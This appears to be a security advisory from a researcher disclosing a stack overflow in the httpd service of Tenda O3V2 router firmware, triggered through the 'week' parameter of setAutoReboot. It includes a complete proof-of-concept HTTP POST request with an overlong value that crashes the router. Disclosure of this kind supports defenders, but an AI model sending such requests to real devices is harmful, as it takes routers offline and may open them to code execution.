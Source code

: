 # Tenda Vulnerability

Vendor:Tenda

Product:O3V2

Version:1.0.0.12(3880)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `setAutoReboot` function, `week` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `week` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `week` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `week` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/setNetworkService HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 248
Origin: http://192.168.2.1
Connection: close
Referer: http://192.168.2.1//index.html
Cookie: O3V2.0_user=admin

timeRebootEn=&type=&week=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&rebootTime=&interval=&
```



## Result

The target router crashes and cannot provide services correctly and persistently.
